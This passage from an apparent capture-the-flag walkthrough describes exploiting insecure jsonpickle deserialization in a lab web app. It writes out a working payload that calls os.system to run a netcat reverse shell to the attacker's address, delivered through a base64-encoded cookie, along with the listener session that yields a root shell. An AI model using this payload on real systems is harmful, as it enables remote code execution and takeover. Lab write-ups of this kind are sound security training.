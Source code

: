 After looking at the source code, we can confirm that we are, in fact, using [`jsonpickle`](https://jsonpickle.github.io/). After reading the documentation and noticing the extremely obvious warning that it can be used to run arbitrary code, we have another way in. A bit of online research shows that [`jsonpickle` vulns are very well known](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/). I personally opted to use one present in [Issue #178](https://github.com/jsonpickle/jsonpickle/issues/178) of the official repo. Let's modify this to spawn a reverse shell:

    {"py/object": "__main__.Shell", "py/reduce": [{"py/function": "os.system"}, ["/usr/bin/nc -e /bin/sh 192.168.56.102 1236"], 0, 0, 0]}
    
We'll base64-encode this string (CyberChef again!) and then put that in our username cookie. On our Kali machine, we'll spawn another netcat listener on 1236 (`nc -lvp 1236`). We reload the page and get our beautiful `Waiting for 192.168.56.106...` tooltip. We pop back to our reverse shell and see a connection. Let's try `whoami`!

    root@kali ~ # nc -lvp 1236                                                                                      
    listening on [any] 1236 ...
    192.168.56.108: inverse host lookup failed: Unknown host
    connect to [192.168.56.102] from (UNKNOWN) [192.168.56.108] 40844
    whoami
    root
    
We did it. Let's grab the flag.

    cd /root
    ls
    cat proof.txt
    